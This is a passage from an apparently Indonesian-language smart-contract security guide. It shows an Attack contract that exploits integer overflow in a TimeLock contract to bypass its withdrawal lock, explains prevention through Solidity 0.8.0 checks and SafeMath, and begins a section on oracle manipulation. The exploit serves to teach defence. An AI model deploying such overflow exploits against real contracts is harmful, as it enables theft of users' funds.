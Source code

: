 ```

        uint amount = balances[msg.sender];
        balances[msg.sender] = 0;

        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Ether");
    }
}

contract Attack {
    TimeLock timeLock;

    constructor(TimeLock _timeLock) {
        timeLock = TimeLock(_timeLock);
    }

    fallback() external payable {}

    function attack() public payable {
        timeLock.deposit{value: msg.value}();
        /*
        if t = current lock time then we need to find x such that
        x + t = 2**256 = 0
        so x = -t
        2**256 = type(uint).max + 1
        so x = type(uint).max + 1 - t
        */
        timeLock.increaseLockTime(
            type(uint).max + 1 - timeLock.lockTime(address(this))
        );
        timeLock.withdraw();
    }
}
```

##### Cara mencegah underflow dan overflow bilangan bulat

Sejak versi 0.8.0, pengompilasi Solidity menolak kode yang menghasilkan underflow dan overflow bilangan bulat. Namun, kontrak yang dikompilasi dengan versi pengompilasi yang lebih rendah harus melakukan pemeriksaan pada fungsi yang melibatkan operasi aritmatika atau menggunakan pustaka (misalnya, [SafeMath](https://docs.openzeppelin.com/contracts/2.x/api/math)) yang memeriksa adanya underflow/overflow.

#### Manipulasi Oracle \{#oracle-manipulation}

[Oracles](/developers/docs/oracles/) mengambil informasi di luar rantai dan mengirimnya ke dalam rantai agar dapat digunakan oleh kontrak pintar. Dengan oracle, Anda dapat mendesain kontrak pintar yang mendukung sistem di luar rantai, seperti pasar modal, sehingga dapat sangat memperluas penggunaannya.

Akan tetapi, jika oracle rusak dan mengirimkan informasi yang salah di dalam rantai, kontrak pintar akan dijalankan berdasarkan input yang salah sehingga dapat menimbulkan masalah. Ini adalah dasar dari "masalah oracle", yang berkaitan dengan tugas untuk memastikan informasi dari oracle rantai blok sudah akurat, mutakhir, dan tepat waktu.
